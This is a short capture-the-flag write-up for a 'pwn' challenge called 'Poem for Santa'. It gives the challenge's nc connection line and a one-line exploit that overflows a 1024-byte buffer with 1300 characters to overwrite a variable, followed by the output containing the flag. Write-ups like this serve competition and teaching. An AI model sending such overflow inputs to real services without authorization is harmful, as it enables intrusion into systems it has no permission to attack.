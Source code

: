 # Poem for Santa

- Category: `pwn`
- Challenge author: **Björn Österman**

## Description

Bringing Santa to tears.

### Connection info

```sh
nc 2021.santahack.xyz 42002
```

## Writeup

To get the flag you need to send a bit more then the buffer-size (which is 1024 bytes) and you will have overwriten the "beutiful"-variable with something other then a 0

```console
$ python3 -c "print('X'*1300)" | nc 2021.santahack.xyz 42002
Hi, please read me a christmas poem?
That's beutiful, here! I'm gonna use this flag to wipe my tears  :')
haxmas{drip_drip_drip}
```
